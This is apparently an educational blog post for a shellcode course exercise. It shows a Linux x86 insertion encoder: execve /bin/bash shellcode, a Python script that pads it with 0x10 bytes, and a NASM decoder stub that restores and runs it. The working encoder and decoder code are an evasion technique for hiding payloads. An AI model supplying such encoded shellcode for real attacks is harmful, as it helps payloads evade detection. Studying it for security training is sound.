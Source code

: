 ```yaml
---
layout: post
title: SLAE Exercise 4 - Insertion Encoder
subtitle: Linux x86 Insertion Encoder
tags: [SLAE]
---
```


**Overview**

The fourth task of the SLAE exam required a custom enncoding shceme to be written. The requirements for this were as follows:

- PoC using execve-stack as the shellcode to encode and execute

**Requirements**

An insertion encoder was looked at for this exercise. This is done by inserting values into the original shellcode using a script which is then subsequently decoded when the shellcode is run by a decoder stub within the shellcode. The final shellcode will have a format similar to the following:

|------------------|---------------------------|
|   Decoder stub   |  encoded shellcode        |
|------------------|---------------------------|

For insertion encoder, a value will be inserted in-between the legitimate shellcode an example can be seen here whereby the value 0x10 is the inserted value:

Shellcode: 0x01, 0x02, 0x03, 0x04

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

To obtain the original shellcode, the role of the decoder stub for an insertion encoder is to move the legitimate shellcode values into the inserted values. An example of this can be seen below:

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x03, 0x10, 0x04


*Knowing how  this works, what is needed to create this shellcode?*

- Shellcode that is to be encoded, for this the SLAE execve-stack shellcode as per exercise criteria. 
- A program to insert the required values into the original shellcode. 
- A decoder shellcode program to decode the altered shellcode and run it. 


**Shellcode**

The shellcode for the execve-stack program is as follows:

```
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

```

This is due to the requirements set out for this exercise within the exam. 

**Encoder**
For the program to insert the required values into the shellcode, the python script found [here](https://github.com/14Deep/SLAE/tree/master/Exercise%204) can be used to insert the required values into the required shellcode, including putting values at the end of the shellcode to let the decoder stub know when to stop decoding. 

The code is commented so should not need explaining, this can be seen below:

```
#!/usr/bin/python
# Python Insertion Encoder 

# input shellcode, for this exercise the execve-stack shellcode
shellcode = ("\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# the value that is wished to be inserted, can be changed to a required value
insertionvalue = 0x10

# the value that signals the end of the shellcode, make sure this is not the same as 'insertionvalue'
endvalue = '0xaa,0xaa'

# setting encoded to be populated in the upcoming loop
encoded = ""

print 'Encoded shellcode ... \n'

#loop through shellcode inserting the 'insertionvalue' inbetween
for x in bytearray(shellcode) :

	encoded += '0x' 			# add 0x to 'encoded'
	encoded += '%02x,' %x                   # add first shellcode byte in hex format (02x) and a comma
	encoded += '0x%02x,' % insertionvalue   # as above, but the chosen insertion value is used instead


encoded += endvalue				# add 'endvalue' to shellcode so the decoder knows when to stop

print encoded + '\n'				# print 'encoded'

print 'Total length of encoded shellcode is - %d' % len(bytearray(shellcode))

```


**Decoder**
The decoder utilises the jmp, call, pop technique to get the address of the encoded shellcode. From there, it iterates through the shellcode moving all of the legitimate values into the inserted valued. The shellcode is heavily commented and should clearly explain what is occurring at each step. The shellcode can be found [here](https://github.com/14Deep/SLAE/blob/master/Exercise%204/Encoder.py), and is also displayed below:

```
; Filename: InsertionDecoder.nasm
; Author:   Jake Badman
; Website:  14deep.github.io
; Purpose:  An insertion decoder to decode the shellcode for exercise 4 of SLAE 

global _start			

section .text
_start:

;Will be using jmp, call, pop to get the address of the encoded shellcode. 

				
xor eax, eax			     ; clearing registers
xor ebx, ebx
xor ecx, ecx

jmp short shellcode                  ; jumping to call_shellcode, which holds the encoded shellcode

decoder:

	pop esi                      ; pop address of Shellcode into esi
	lea edi, [esi + 1]           ; this is tracking the inserted values, edi will contain the value after esi, which is the inserted value
	inc al                       ; move 1 to eax, used as a counter for inserted values
	mov byte cl, [esi + 1]	     ; moving the first inserted value into cl, this will stay constant and be used to check when the shellcode has finished
decode:
	mov bl, byte [esi + eax]     ; bl will point to the inserted values
	xor bl, cl                   ; check if there is still shellcode to decode
	jnz short EncodedShellcode   ; if the zero flag is not set it means that the xor'd value wasn't the same as the inserted value meaning
				     ; the shellcode has finished. 


	mov bl, byte [esi + eax + 1] ; This moves the value after the inserted value into bl
	mov byte [edi], bl	     ; move bl, the legitimate value into the inserted value before it 
	inc edi			     ; increment edi so that it points to the next inserted value
	inc eax			     ; adding 2 to eax to point to the next inserted value
	inc eax	

	jmp short decode             ; loop until all shellcode has been decoded


shellcode:

	call decoder
	EncodedShellcode: db 0x31,0x10,0xc0,0x10,0x50,0x10,0x68,0x10,0x62,0x10,0x61,0x10,0x73,0x10,0x68,0x10,0x68,0x10,0x62,0x10,0x69,0x10,0x6e,0x10,0x2f,0x10,0x68,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x89,0x10,0xe3,0x10,0x50,0x10,0x89,0x10,0xe2,0x10,0x53,0x10,0x89,0x10,0xe1,0x10,0xb0,0x10,0x0b,0x10,0xcd,0x10,0x80,0x10,0xaa,0xaa

```


